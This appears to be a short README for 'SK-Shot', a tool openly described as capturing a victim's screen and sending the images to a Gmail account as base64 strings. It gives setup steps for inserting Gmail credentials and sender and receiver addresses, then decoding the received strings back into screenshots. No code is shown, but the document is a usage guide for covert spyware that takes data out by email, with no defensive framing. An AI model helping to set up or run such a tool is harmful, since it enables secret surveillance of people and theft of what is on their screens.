 # SK-Shot
Captures victim screen and send to gmail
USAGE
1.CHANGE THIS IN YOUR SCRIPT WITH YOUR GMAIL AND PASSWORD 
LINE16:login("xxx@gmail.com", "password") 
2.CHANGE SENDER AND RECEIVER GMAIL
LINE20:("senderemail@gmail.com", "receiveremail@gmail.com",)
3.CHECK YOUR GMAIL YOU WILL GET BS64 STRINGS COPY ALL AND  PASTE IN BASE64.TXT
4.NOW RUN decodebs64.py 
5.You will get captured screenshot
